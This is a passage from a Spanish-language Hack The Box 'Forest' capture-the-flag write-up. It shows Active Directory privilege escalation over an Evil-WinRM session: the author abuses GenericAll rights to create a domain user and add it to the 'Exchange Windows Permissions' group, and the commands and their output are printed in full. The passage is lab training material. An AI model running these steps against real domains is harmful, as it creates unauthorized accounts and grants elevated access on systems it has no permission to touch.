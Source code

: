 A través de los permisos Generic All podemos añadir usuarios a un grupo o cambiar la contraseña de usuarios. 

Busco información sobre los permisos Generic All para proceder a crear un nuevo usuario y meterlo en el grupo que queremos.

1. Creamos un usuario y lo añadimos al dominio.

```ps
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net user elc4br4 elc4br4 /add /domain 
The command completed successfully.
```

2. Añadimos el nuevo usuario al grupo EXCHANGE WINDOWS PERMISSIONS

```ps
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net group "Exchange Windows Permissions" /add elc4br4
The command completed successfully.
```

3. Lo comprobamos:

```ps
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net group "Exchange Windows Permissions"
Group name     Exchange Windows Permissions
Comment        This group contains Exchange servers that run Exchange cmdlets on behalf of users via the management service. Its members have permission to read and modify all Windows accounts and groups. This group should not be deleted.

Members

-------------------------------------------------------------------------------
elc4br4
The command completed successfully.
```
4. Y Ya estamos dentro del grupo

![](/assets/images/HTB/Forest-HackTheBox/BloodHound1.webp)
